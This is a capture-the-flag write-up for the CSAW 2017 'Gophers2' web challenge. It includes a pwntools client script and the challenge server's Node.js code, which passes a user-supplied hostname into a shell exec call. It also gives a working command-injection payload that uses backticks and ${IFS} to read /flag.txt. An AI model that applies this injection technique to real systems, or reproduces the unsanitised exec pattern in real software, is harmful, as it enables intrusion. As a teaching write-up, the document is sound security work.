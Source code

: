 [writeup by @bonaff]

**CTF:** CSAW CTF Final Round 2017

**Team:** spritzers (from [SPRITZ Research Group](http://spritz.math.unipd.it/))

**Task:** Web / Gophers2

**Points:** 200

> Solve Gophers1, and it will tell you what to do.

For this challenge I reused the client from the Gophers1 challange (let's call it `pwn_client.py`):

```python
#!/usr/bin/env python2

import sys
import random
from pwn import *

DH_P = 251
DH_G = 6

def request(data):
    p = remote('web.chal.csaw.io', 4333)

    # Diffie-Hellman key exchange
    dh_a = random.randint(0, 255)
    dh_A = (DH_G ** dh_a) % DH_P
    p.send(p8(dh_A))
    dh_B = u8(p.recvn(1))
    s = (dh_B ** dh_a) % DH_P

    crypt = lambda x : ''.join([chr(ord(c) ^ s) for c in x])

    p.send(crypt(data))
    return crypt(p.recvall())

if len(sys.argv) >= 2:
    print request(sys.argv[1])
```

Sending a `/` returns "Hey man, I heard you like writing clients, try writing a server!", with the source code of the remote server.
Time for some code review!

From the first lines of code we can see that the flag is in the root directory:

```javascript
const FLAG = readFileSync('/flag.txt');
```

But this constant is never used in the code, so we are looking for some kind of file disclosure / remote code execution.

Then there are some app.selector:

```javascript
app.selector('/', function(req, res, done){
```

This is the index that we've seen before. Nothing fancy.

```javascript
app.selector('/reset', function(req, res, done){
[...]
```

This will reset a sandbox (see below).

```javascript
app.selector('/run_client', function(req, res, done) { [..] }
```

Finally, this will get a hostname and a port, and will connect to that host:port using gopher2. The way it does this is quite interesting:

1. First, it creates a sandbox and copies a client script named `client.py`.
2. Then, it checks that the hostname and the port are valid by creating an URL object.
3. Finally, it passes the hostname and the port to the client by calling **`exec`**.

Here's the code:

```javascript
let {host, port} = req.params;
  let _url = `gopherz2://${host}:${port}`; 
  let url;
  try {
    url = new URL(_url);
  } catch (e) {
    res.listing([{
      type: 'E',
      data: 'Yeah that\'s not going to work',
    }]);
    return done();
  }
  host = url.hostname;
  port = url.port;                        

  let sandbox = sandbox_directory(req.client.remoteAddress);  
  if (host && port) {
    waterfall([
      (cb) => { 
        exec(`mkdir ${sandbox} && chmod +rwx ${sandbox} && cp client.py ${sandbox}/ && chmod 777 ${sandbox}`, (err, stderr, stdout) => { if (err) cb(stderr); else cb(); });
      },
      (cb) => {
        exec(`cd ${sandbox} && python3 client.py ${host} ${port}`, 
          (err, stdout, stderr) => {
            if(err) cb(stderr);
            else {
              res.listing([{
                type:'T',
                data: stdout,
              }]);
              done();
            }
        });
      }
    ], (err) => {
      if(err) {
        res.listing([{
          type: 'E',
          data: err
        }]);
        done();
      }
    })
  } else {
    res.listing([{
      type: 'E',
      data: 'host and port wrong'
    }]);
    done();
  }
});
```

Playing a bit with the URL parser, I found that the characters ``$;`{}`` are considered valid in the hostname, so if we forge a host like:

```text
0;`echo${IFS}foo`
```

Bash will throw an error, saying that the command `foo` can't be found. So let's read the flag!

```bash
./pwn_client.py '/run_client\thost:0;`cd${IFS}..;cd${IFS}..;cd${IFS}..;cat${IFS}flag.txt`\tport:444'
```

And this will throw an error with the flag.